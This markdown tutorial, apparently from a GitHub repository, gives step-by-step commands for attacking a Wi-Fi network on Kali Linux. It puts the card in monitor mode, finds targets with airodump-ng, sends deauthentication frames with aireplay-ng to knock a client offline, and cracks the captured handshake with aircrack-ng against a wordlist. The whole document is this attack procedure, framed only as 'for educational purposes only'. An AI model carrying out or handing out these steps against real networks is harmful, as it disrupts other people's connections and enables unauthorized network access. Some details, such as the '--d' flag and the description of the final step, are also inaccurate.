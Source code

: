 ```yaml
---
title: "Deauthentication attack with a wordlist"
tag: "wifi"
---
```


This is a simple tutorial on how to perform a deauthentication attack on a
wireless network using a wordlist on Kali Linux. For educational purposes only.

## 1. Put your wireless card in monitor mode

```
ip a
```

this will show you the name of your wireless card, in my case it's `wlan0`

```
airmon-ng start wlan0
```

this will put your wireless card in monitor mode, in my case it's now `wlan0mon`

this switches the network card to monitor mode, which allows us to see all the
traffic on the network

## 2. Find the name of the network you want to attack

```
airodump-ng wlan0mon
```

this will show you all the networks in range, find the one you want to attack
and copy the name of it. You need the BSSID and the channel number.

## 3. Start capturing packets

```
airodump-ng --d <BSSID> -c <CHANNEL> -w FILENAME wlan0mon
```

this will start capturing packets from the network you want to attack, it will
save them in a file called `FILENAME.cap`. You can stop this process by pressing
`CTRL + C`. Take note of the STATION of the client you want to attack.

## 4. Deauthenticate a client

```
aireplay-ng -0 10 -a <BSSID> -c <STATION> wlan0mon 
```

this will deauthenticate the client from the network, it will send 10 packets 
to the client. You can stop this process by pressing `CTRL + C`. It will interuppt 
the connection of the client from the network. Sometimes it doesn't work first try but 
it usually works after a few tries.

## 5. Crack the password

```
aircrack-ng FILENAME.cap -w WORDLIST
```

WORDLIST is the path to the wordlist you want to use to crack the password. 
Typically the wordlist is located in `/usr/share/wordlists/rockyou.txt`

This will crack the password of the network and show it to you.

## 6. Stop capturing packets

```
airmon-ng stop wlan0mon
```

this will stop capturing packets and put your wireless card back in managed mode